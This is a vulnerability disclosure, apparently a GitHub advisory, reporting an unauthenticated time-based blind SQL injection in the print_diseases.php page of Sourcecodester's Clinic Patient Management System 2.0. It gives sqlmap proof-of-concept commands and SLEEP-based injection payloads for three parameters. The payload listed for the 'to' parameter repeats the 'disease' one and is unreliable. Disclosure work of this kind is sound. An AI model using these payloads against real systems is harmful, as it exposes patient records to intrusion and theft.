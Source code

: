 # A Unauthenticated SQL injection vulnerability  was identified in SourceCodesters Clinic's Patient Management System - PHP

Affected Project: Sourcecodester Clinic's Patient Management System - PHP 2.0

Official Website: Sourcecodester Clinic's Patient Management System

Version: 2.0

vulnerable code: /print_diseases.php


POC: 
---

`sqlmap -u "http://192.168.95.115/print_diseases.php?from=1&to=1&disease=1" -p from`


```
---
Parameter: from (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1' AND (SELECT 8759 FROM (SELECT(SLEEP(5)))EuWn) AND 'NMcb'='NMcb&to=1&disease=1
---

```

---

`sqlmap -u "http://192.168.95.115/print_diseases.php?from=1&to=1&disease=1" -p disease`

```
---
Parameter: disease (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1&to=1&disease=1') AND (SELECT 4423 FROM (SELECT(SLEEP(5)))zAiU) AND ('FMCA'='FMCA
---
```

---

`sqlmap -u "http://192.168.95.115/print_diseases.php?from=1&to=1&disease=1" -p to `

```

---
Parameter: to (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1&to=1&disease=1') AND (SELECT 4423 FROM (SELECT(SLEEP(5)))zAiU) AND ('FMCA'='FMCA
---

```
